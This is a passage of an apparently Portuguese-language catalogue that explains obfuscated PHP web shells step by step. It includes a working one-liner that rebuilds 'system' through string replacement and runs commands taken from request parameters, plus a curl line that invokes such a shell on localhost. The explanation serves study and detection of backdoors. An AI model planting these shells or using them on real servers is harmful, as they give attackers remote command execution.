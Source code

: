 A string resultante em `$__` é "system".
- `(($___("{$_[0][0]}"))`: Executa a função "system" com o argumento `$_[0][0]` (valor de `$_GET["x30"]`).

Functions:
- ERROR_REPORTING <https://secure.php.net/manual/pt_BR/function.error-reporting.php>
- GET_DEFINED_VARS <http://php.net/manual/pt_BR/function.get-defined-vars.php>
- VARIABLE FUNCTIONS <http://php.net/manual/pt_BR/functions.variable-functions.php>
- VARIABLE SHELLCODE <https://pt.wikipedia.org/wiki/Shellcode> 
- SYSTEM <http://php.net/manual/pt_BR/function.system.php>
- ERROR CONTROL @ <https://www.php.net/manual/pt_BR/language.operators.errorcontrol.php>
- EXIT <http://php.net/manual/pt_BR/function.exit.php>
- $_GET <https://www.php.net/manual/pt_BR/reserved.variables.get.php>

Variáveis: 

| SHELLCODE               | VALUE                   |
| ----------------------- | ----------------------- |
| x30                     | `0`                     |
| x73 x79 x73 x74 x65 x6D | `s` `y` `s` `t` `e` `m` |

Execução: 
```bash
curl -v 'http://localhost/shell.php?0=id;uname -a'
```

---

#### EXEMPLO 08

**Debugar o código:**

Code:
```php
(error_reporting(0)).(str_replace(['$','@','#'],'','s$##y@#$@#$@#$@s$#$@#$@#$@$te$#@#$m'))
.($_("{$_REQUEST[0]}"));
```

1. Desativa erros
- `(error_reporting(0))`: Desativa a exibição de erros PHP.
2. Limpa string e executa comando
- `str_replace(['$','@','#'],'','s$##y@#$@#$@#$@s$#$@#$@#$@$te$#@#$m')`:
    - Substitui os caracteres $, @ e # pela string vazia.
    - Resultado: system
3. Executa comando
- `($_("{$_REQUEST[0]}"))`:
    - Executa o comando "system" com o argumento passado em `$_REQUEST[0]`.
    - `$_REQUEST[0]` é um parâmetro passado via requisição HTTP.

Funcionamento:
1. O atacante envia uma requisição HTTP com um parâmetro 0 contendo o comando a ser executado.
2. O código PHP executa o comando "system" com o parâmetro recebido.

Functions:
- ERROR_REPORTING <https://secure.php.net/manual/pt_BR/function.error-reporting.php>
- STR_REPLACE <http://php.net/manual/pt_BR/function.str-replace.php>
- VARIABLE FUNCTIONS <http://php.net/manual/pt_BR/functions.variable-functions.php>
- $_REQUEST <https://www.php.net/manual/pt_BR/reserved.variables.request.php>

